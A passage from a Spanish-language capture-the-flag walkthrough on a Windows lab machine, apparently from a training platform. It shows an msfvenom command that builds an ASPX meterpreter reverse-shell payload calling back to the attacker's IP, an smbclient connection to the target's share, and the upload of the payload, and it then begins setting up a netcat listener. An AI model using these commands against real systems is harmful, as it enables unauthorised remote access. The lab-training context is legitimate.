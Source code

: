 ![](IMG/Pasted%20image%2020250304135211.png)

Ahora si, era por eso. Así que volvemos a crear el exploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.16.0 LPORT=4444 -f aspx -o payload.aspx
```

![](IMG/Pasted%20image%2020250304135306.png)

Y lo subimos a la máquina objetivo, conectamos primero por samba (con la nueva IP):

```
smbclient \\\\10.10.4.88\\nt4wrksv
```

![](IMG/Pasted%20image%2020250304192934.png)

Y enviamos el payload:

```
put payload.aspx
```

![](IMG/Pasted%20image%2020250304135531.png)

Ahora que ya tenemos el exploit en la máquina objetivo, antes de ejecutarlo, debemos poner un "listener" en nuestra máquina atacante para que escuche las conexiones, usaremos netcat para ello. de esta forma:

> [!NOTE]
> Podríamos hacer el listener con metasploit, pero como en el enunciado nos han comentado que no era necesario para hacer esta máquina, usaremos netcat.
